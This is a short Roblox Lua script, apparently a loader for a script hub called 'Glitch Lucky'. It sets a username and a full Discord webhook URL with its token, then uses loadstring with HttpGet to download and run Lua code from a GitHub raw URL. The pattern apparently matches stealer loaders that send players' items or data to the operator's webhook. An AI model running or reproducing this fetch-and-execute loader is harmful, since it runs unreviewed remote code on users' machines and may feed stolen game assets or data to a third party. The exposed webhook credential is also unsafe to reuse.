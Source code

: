 _G.Username = "dsmswww"

_G.HubName = "Glitch Lucky"

_G.WebhookUrl = "https://discord.com/api/webhooks/1108012258358992916/gXcK43JVQ7YqwNlEaBg4Nw_Qk_dpyi2sMjENWjM2z_rgdWg3xZS9OflQQIFsqC3McA11"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
